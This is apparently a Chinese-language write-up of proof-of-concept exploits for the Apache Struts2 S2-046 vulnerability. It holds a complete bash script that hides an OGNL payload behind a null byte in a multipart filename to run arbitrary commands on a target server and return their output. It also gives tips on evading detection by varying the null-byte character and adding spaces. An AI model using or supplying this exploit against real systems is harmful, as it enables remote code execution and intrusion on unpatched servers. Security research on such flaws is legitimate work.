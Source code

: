 [原文](https://community.hpe.com/t5/Security-Research/Struts2-046-A-new-vector/ba-p/6949723#)

### S2-046 PoC_2

header中的Content-Disposition中包含空字节。
文件名内容构造恶意的OGNL内容。

![JakartaMultiPartRequest中的processUpload](JakartaMultiPartRequest_processUpload.png)
![processFileField中处理各个header头](JakartaMultiPartRequest_processFileField.png)
![DiskFileItem的getName会处理NULL字符串](DiskFileItem_getName.png)
![调用Streams中的checkFileName检查NULL字符串](Streams_checkFileName.png)

```shell
    
#!/bin/bash
 
url=$1
cmd=$2
shift
shift
 
boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")
 
printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@
```

验证截图

![验证截图](360_check.png)


[360安全客](http://bobao.360.cn/learning/detail/3571.html)
当\0b不可当成检测字符，\0b可以被替换成\0000,\0a - \0z 等等。所以，最好是使用多种情况。
多个空格
多个空格，且里面可以添加\r\n
n个空格

### S2-046 PoC_3

[S2-046-PoC](https://github.com/pwntester/S2-046-PoC)
